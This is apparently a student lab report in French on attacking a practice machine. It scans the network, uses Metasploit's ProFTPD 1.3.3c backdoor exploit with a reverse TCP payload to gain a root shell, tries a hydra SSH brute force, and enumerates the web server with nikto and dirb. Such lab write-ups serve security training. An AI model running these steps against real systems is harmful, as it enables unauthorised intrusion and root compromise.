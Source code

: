 # Rapport du TP2

Comme d'habitude on commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.6/24

on commence par faire une analyse détaillée de tous les ports ouverts.
`nmap -sC -sV -A -p- 10.0.2.6`

![1732270069043](image/rapport-tp3/1732270069043.png)

On voit que 3 ports sont ouverts : le 21, le 22 et le 80

## Port 21

On peut essayer de se connecter en ftp (avec l'identifiant et le mdp 'ftp')
`ftp 10.0.2.6`
La connexion echoue.
![1732270713862](image/rapport-tp3/1732270713862.png)

Dans l'analyse des ports, on remarque que la version est "ProFTPD 1.3.3c"

On peut essayer d'utiliser `msfconsole` pour accéder au shell metasploit qui permet de rechercher des vulnérabilités.

`search PROFTPD 1.3.3c`

![1732274049690](image/rapport-tp3/1732274049690.png)

`use 0` pour séléctionner "exploit/unix/ftp/proftpd_133c_backdoor"

![1732274737827](image/rapport-tp3/1732274737827.png)
En accédant aux `options`, on constate que rhost n'est pas configuré. On défini donc l'ip de rhost.
`set rhost 10.0.2.6`

Rport est correctement cofiguré, on y touche pas.

On affiche les payloads
![1732274488451](image/rapport-tp3/1732274488451.png)

Dans notre cas, on veux une reverse TCP connexion donc on séléctionne l'élément 4 `set payload 4`

Dans les options, on voit que LHOST est requis mais n'est pas défini. Il faut donc lui assigné l'ip de la machine hôte.
`set lhost 10.0.2.4`

Avec la commande `run`, on peut maintenant exploiter la faille de sécurité pour se connecter en ftp.

![1732275074257](image/rapport-tp3/1732275074257.png)
On constate qu'une connexion est bien ouverte (10.0.2.4:4444 -> 10.0.2.6:34682) et si je tape la commande `whoami`, je suis bien utilisateur root. De plus, 

Je peux ouvrir un shell et faire toutes les manipulations souhaitées sur la machine cible en tant que root.
![1732275364664](image/rapport-tp3/1732275364664.png)

## Port 22

Le port 22 est associé à ssh donc on va faire une attaque brut force en utilisant hydra.
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.6`

Sans succès...

![1732271041497](image/rapport-tp3/1732271041497.png)

## Port 80

Il s'agit d'un serveur web, on peut se rendre à l'url `10.0.2.6`
On tombe sur une page web avec rien de spécial dessus.

![1732270433602](image/rapport-tp3/1732270433602.png)

En inspectant le code source de la page je ne vois rien non plus.

Je peux faire un scan nikto

`nikto -h 10.0.2.6`

![1732271735114](image/rapport-tp3/1732271735114.png)


Je peux également utliser dirb.

`dirb http://10.0.2.6`

On découvre dans les 2 cas un dossier "/secret"

On se rend donc à l'url `http://10.0.2.6/secret`

![1732271266395](image/rapport-tp3/1732271266395.png)

On tombe sur un "blog secret"

Lorsque l'on clique sur les lien, cela nous redirige vers une pga inacessible et l'url change `vtcsec/...`

![1732271364228](image/rapport-tp3/1732271364228.png)

Après avoir réussi à accéder à la machine en tant que root en passant par le port 21, je me rend compte que "vtcsec" correspond bien à l'utilisateur root

![1732275561481](image/rapport-tp3/1732275561481.png)